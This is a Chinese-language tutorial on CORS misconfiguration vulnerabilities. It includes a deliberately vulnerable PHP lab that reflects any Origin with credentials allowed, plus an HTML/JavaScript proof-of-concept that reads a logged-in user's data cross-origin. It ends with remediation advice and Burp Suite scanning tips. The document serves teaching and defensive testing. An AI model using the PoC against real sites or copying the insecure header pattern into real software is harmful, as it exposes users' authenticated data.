






## CORS介绍

CORS（跨源资源共享）是一种用于在Web应用程序中处理跨域请求的机制。当一个Web应用程序在浏览器中向不同的域（源）发起跨域请求时，浏览器会执行同源策略，限制了跨域请求的默认行为。同源策略要求Web应用程序只能访问与其本身源（协议、域名和端口）相同的资源。

然而，在某些情况下，我们希望允许来自其他源的跨域请求，例如使用AJAX进行跨域数据访问或在前端应用程序中嵌入来自不同域的资源（如字体、样式表或脚本）。这时就需要使用CORS来解决跨域请求的限制。

CORS通过在服务器端设置响应头来进行配置。当浏览器发起跨域请求时，服务器可以通过设置特定的CORS响应头来告知浏览器是否允许该请求。常见的CORS响应头包括以下几个：

1. `Access-Control-Allow-Origin`：指定允许访问该资源的源。可以是具体的源（如http://example.com）或通配符（`*`），表示允许来自任意源的访问。
2. `Access-Control-Allow-Methods`：指定允许的HTTP方法（如GET、POST、PUT等）。
3. `Access-Control-Allow-Headers`：指定允许的请求头字段。
4. `Access-Control-Allow-Credentials`：指定是否允许发送身份凭证（如cookies、HTTP认证等）。
5. `Access-Control-Max-Age`：指定预检请求（OPTIONS）的有效期，以减少对服务器的频繁请求。

在前端代码中，如果要发送跨域请求，可以通过`XMLHttpRequest`对象或`fetch API`添加额外的请求头来指示浏览器发起CORS请求。浏览器会自动在发送请求时检查响应中的CORS头信息，并根据配置决定是否允许该请求。

具体可参考[MDN DOC](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)

## 漏洞介绍

因为需要配置CORS响应头来告知浏览器是否允许该请求，所以如果配置不当，就可能导致攻击者通过恶意网站或代码执行跨域请求，从而**获取或篡改用户的敏感数据（危害和CSRF类似，不过可以劫持返回的内容）**。

## 漏洞复现

### 环境搭建

实战过程中，主要是`Origin可控`以及`Access-Control-Allow-Credentials`设置为`True`，这样才能劫持到数据，简单的漏洞复现环境如下：

php代码，保存为`index.php`

```php
<?php
$userInfo = array(
    'username' => 'd4m1ts',
    'phone' => '13888888888'
);
$jsonResponse = json_encode($userInfo);

// 检查是否存在Origin头
if (isset($_SERVER['HTTP_ORIGIN'])) {
    // 设置Access-Control-Allow-Origin为请求中的Origin值
    header('Access-Control-Allow-Origin: ' . $_SERVER['HTTP_ORIGIN']);
    
    // 设置Access-Control-Allow-Credentials为True
    header('Access-Control-Allow-Credentials: true');
}

// 检查是否设置了名为admin的Cookie
if (isset($_COOKIE['admin'])) {
    header('Content-Type: application/json');
    echo $jsonResponse;
} else {
  echo "unauth";
}
?>
```

简易启动php web服务

```shell
php -S 127.0.0.1:9999
```

### 复现过程

直接打开会提示`unauth`



根据代码，需要在Cookie中设置字段`admin`

> [!NOTE]
>
> 浏览器默认SameSite是Lax，`Lax`的情况下无法发送至第三方上下文中，所以需要设置一下，不然无法劫持！

```javascript
document.cookie = "admin=1; SameSite=None"
```

设置后刷新就可以拿到数据了，我们假设这是敏感数据，后续即使对这个数据进行劫持。



---

假设`http://internal.gm7.org:9999/`是目标，测试过程中在请求数据包头添加`Origin`字段，观察响应包，发现Origin可控，且`Access-Control-Allow-Credentials: true`，还没有验证referer，就说明可以劫持了。



编写POC如下：

```html
<!DOCTYPE html>
<html>
<body>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "http://internal.gm7.org:9999/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

放到第三方网站上，可见成功劫持



### 特别说明

如果要CORS携带Cookie，同时成功利用该漏洞，需要满足如下几个条件

1. Cookie的`SameSite`属性值为`None`，但目前浏览器默认几乎都是`Lax`
2. 响应头中的`Access-Control-Allow-Origin`不能为通配符`*`，而是应指定具体的域名，否则只能发起请求，无法获取到响应
3. 服务器的响应头需要包含`Access-Control-Allow-Credentials: true`
4. 在发起Ajax请求时，需要将`withCredentials`设置为`true`。

## 修复建议

1. 限制`Access-Control-Allow-Origin`的值为可信源，尽可能设置白名单，不能为`*`，也不能为`null`
2. 避免`Access-Control-Allow-Credentials`的值为`True`
3. 设置`Access-Control-Allow-Methods`（允许的 HTTP 方法）、`Access-Control-Allow-Headers`（允许的请求头）

## 挖掘技巧

可以在burpsuite中勾选替换条件，自动增加Origin



然后从响应头中查看是否可控Origin以及是否包含`Access-Control-Allow-Credentials: true`



也可以挂着xray去扫，不过误报率可能会比较高，大多都不是敏感信息，没啥意思，不过反正都需要人工去判断，看个人喜好吧。